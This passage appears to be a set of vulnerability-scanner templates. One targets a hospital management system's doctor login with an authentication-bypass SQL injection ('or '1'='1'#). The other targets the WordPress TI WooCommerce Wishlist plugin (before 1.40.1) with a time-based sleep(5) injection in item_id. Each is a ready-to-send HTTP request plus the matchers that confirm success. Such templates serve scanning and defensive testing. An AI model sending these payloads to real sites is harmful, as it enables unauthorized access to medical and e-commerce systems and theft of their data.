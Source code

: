 - severity - critical
- tags - cve,cve2022,hms,cms,sqli,auth-bypass
## Requests
### Step - 1
```
POST /hms/doctor/ HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin%27+or+%271%27%3D%271%27%23&password=admin%27+or+%271%27%3D%271%27%23&submit=

```
### Matchers

**Type - word**
- part - body
- words
    1. <title>Doctor  | Dashboard</title>
    2. View Appointment History
- condition - and

**Type - status**
- status
    1. 200

---
# WordPress TI WooCommerce Wishlist <1.40.1 - SQL Injection
## Description
- WordPress TI WooCommerce Wishlist plugin before 1.40.1 contains a SQL injection vulnerability. The plugin does not sanitize and escape the item_id parameter before using it in a SQL statement via the wishlist/remove_product REST endpoint.

- severity - critical
- tags - sqli,ti-woocommerce-wishlist,wpscan,cve,cve2022,woocommerce,wordpress,wp-plugin,wp
## Requests
### Step - 1
```
@timeout: 10s
GET /?rest_route=/wc/v3/wishlist/remove_product/1&item_id=0%20union%20select%20sleep(5)%20--%20g HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - dsl**
- dsl
    1. duration>=5
